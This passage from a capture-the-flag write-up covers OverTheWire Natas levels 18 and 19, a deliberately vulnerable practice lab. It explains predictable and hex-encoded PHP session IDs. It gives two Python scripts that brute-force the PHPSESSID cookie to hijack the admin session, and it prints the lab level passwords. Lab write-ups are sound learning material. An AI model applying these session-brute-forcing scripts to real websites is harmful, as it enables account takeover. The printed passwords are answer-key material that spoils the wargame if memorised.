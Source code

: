 Nonetheless, with these figured out, and the fact that the number of possible sessions IDs are `640` (defined in `$maxid`), we can do a brute-force search to find the session ID belonging to the `admin`, which should have the `admin` key of `1` in the `$_SESSION`. 

The code for all of the aforementioned operations: 

```python
import requests

target = 'http://natas18.natas.labs.overthewire.org'
auth = ('natas18','8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq')
params = dict(username='IceWizard4902', password='ISuck@CTF') # not needed
cookies = dict()

for i in range(1, 641):
    print("Trying with PHPID: ", i)
    cookies = dict(PHPSESSID=str(i))
    r = requests.get(target, auth = auth, cookies = cookies)
    if "You are an admin" in r.text:
        print(r.text)
        break 


```

We do not really need to include the `username` and `password` in the `GET` request that we sent, as the `if` condition does not really care if the credentials are there, only when it reaches the `else` branch that it starts to do some checks on the parameters passed into the `GET` request.

natas19: `8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s`

# Natas 19

One mental note: When it comes to PHP cookies that has some numbers and letters in it, going to `Cyberchef` and check if the content is encoded is a good practice. 

We are given that the code is the same, but this time the session IDs are not "sequential". What does this even mean??? - the way to generate the session IDs from the old code is not relying on any "sequential" order, indeed they are generated randomly in the range of `1-640`. 

After typing in some dummy data for username and password, inspecting the `PHPSESSID` we see some hex strings like `3530362d6168646864`, which in my case for the username of `ahdhd`, after decoding, it gives `506-ahdhd`. Repeating this process for another username, we can see that the structure of the session ID before encoding is `<NUMBER IN RANGE 1 - 640>-<USERNAME>`. Hence, the correct `PHPSESSID` for the `admin`, before hex encoded, should be something of the form `<NUMBER IN RANGE 1 - 640>-admin`.

The code for all of the aforementioned operations: 

```python
import requests

target = 'http://natas19.natas.labs.overthewire.org'
auth = ('natas19','8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s')
params = dict(username='IceWizard4902', password='ISuck@CTF') # not needed
cookies = dict()

for i in range(1, 641):
    print("Trying with PHPID: ", i)
    PHPSESSID = (str(i) + "-admin").encode('utf-8').hex()
    cookies = dict(PHPSESSID=PHPSESSID)
    r = requests.get(target, auth = auth, cookies = cookies)
    if "You are an admin" in r.text:
        print(r.text)
        break 
```
